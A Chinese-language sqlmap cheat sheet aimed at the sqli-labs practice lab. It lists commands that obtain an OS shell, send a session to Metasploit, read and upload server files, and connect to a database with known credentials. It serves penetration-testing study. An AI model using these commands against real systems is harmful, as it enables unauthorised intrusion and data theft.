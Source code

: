 ```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```

### 探测指定URL是否存在SQL注入漏洞

**对于不用登录的网站**，直接指定其URL

```python
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"  #探测该url是否存在漏洞
```

在探测目标URL是否存在漏洞的过程中，Sqlmap会和我们进行交互。

比如第一处交互的地方是说这个目标系统的数据库好像是Mysql数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是Mysql数据库了。
